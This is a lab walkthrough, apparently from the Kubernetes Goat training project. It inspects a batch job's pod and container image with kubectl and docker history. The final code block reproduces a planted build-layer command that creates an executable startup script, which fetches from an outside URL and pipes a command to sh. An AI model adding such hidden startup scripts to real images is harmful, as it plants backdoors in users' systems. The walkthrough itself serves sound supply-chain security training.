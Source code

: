 ## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

Identify all resources within a Kubernetes cluster. If possible get into details of each container image available in all the nodes within the cluster as well

:::

* Once we have identified the job in the Kubernetes cluster, we can obtain the pod information by running the following command

```bash
kubectl describe job batch-check-job
```

![Scenario 10 get job info](images/sc-10-2.png)

* Then get the pod information by running the below command which showcases the pods with the labels and selectors matching

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

* We can get all the information of the pod spec by running the following command, which returns the entire manifest information in the `YAML` output format

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```

![Scenario 10 get pod info](images/sc-10-3.png)

* We can see that this job pod is running `madhuakula/k8s-goat-batch-check` docker container image

* Now we can perform an analysis of this container image, by looking at its layers and how it got created. Here we can see that it contains a command executing the external script in the build time in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

![Scenario 10 get docker history](images/sc-10-4.png)

```bash
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```
